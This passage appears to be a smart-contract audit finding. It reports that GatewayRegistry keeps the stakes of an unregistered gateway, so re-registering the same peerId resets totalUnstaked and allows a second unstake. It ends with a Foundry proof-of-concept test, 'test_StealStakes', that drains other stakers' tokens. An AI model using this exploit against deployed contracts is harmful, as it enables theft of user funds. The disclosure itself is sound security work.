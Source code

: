 note `totalUnstaked` is set to 0. After this we can stake tokens

```solidity
  function _stakeWithoutTransfer(bytes calldata peerId, uint256 amount, uint128 durationBlocks) internal {
    (Gateway storage gateway, bytes32 peerIdHash) = _getGateway(peerId);
    _requireOperator(gateway);

    uint256 _computationUnits = computationUnitsAmount(amount, durationBlocks);
    uint128 lockStart = router.networkController().nextEpoch();
    uint128 lockEnd = lockStart + durationBlocks;
>>  stakes[peerIdHash].push(Stake(amount, _computationUnits, lockStart, lockEnd));
```

`stakes` mapping is used to track all user stakes. The problem arises when we unregister the gateway, we do not delete the `stakes`, it can be exploited in the following steps:

- unstake tokens from the gateway
- unregister gateway
- register new gateway with the same `peerId`
- since `totalUnstaked = 0`, we can unstake tokens again

```solidity
  function _unstakeable(Gateway storage gateway) internal view returns (uint256) {
    Stake[] memory _stakes = stakes[keccak256(gateway.peerId)];
    uint256 blockNumber = block.number;
    uint256 total = 0;
    for (uint256 i = 0; i < _stakes.length; i++) {
      Stake memory _stake = _stakes[i];
      if (_stake.lockEnd <= blockNumber) {
        total += _stake.amount;
      }
    }
    return total - gateway.totalUnstaked;
  }
```

Here is the coded POC for `GatewayRegistry.unstake.t.sol `

```solidity
  function test_StealStakes() public {
    uint256 amount = 100;
    address alice = address(0xA11cE);
    token.transfer(alice, amount);

    // stakers stake into their gateways
    gatewayRegistry.stake(peerId, amount, 200);
    vm.startPrank(alice);
    token.approve(address(gatewayRegistry), type(uint256).max);
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    gatewayRegistry.stake(bytes("alice"), amount, 200);

    assertEq(token.balanceOf(address(gatewayRegistry)), 200);
    // exploit
    vm.roll(block.number + 300);
    gatewayRegistry.unstake(bytes("alice"), amount);
    gatewayRegistry.unregister(bytes("alice"));
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    // unstake again
    gatewayRegistry.unstake(bytes("alice"), amount);
    assertEq(token.balanceOf(address(gatewayRegistry)), 0);
  }
```
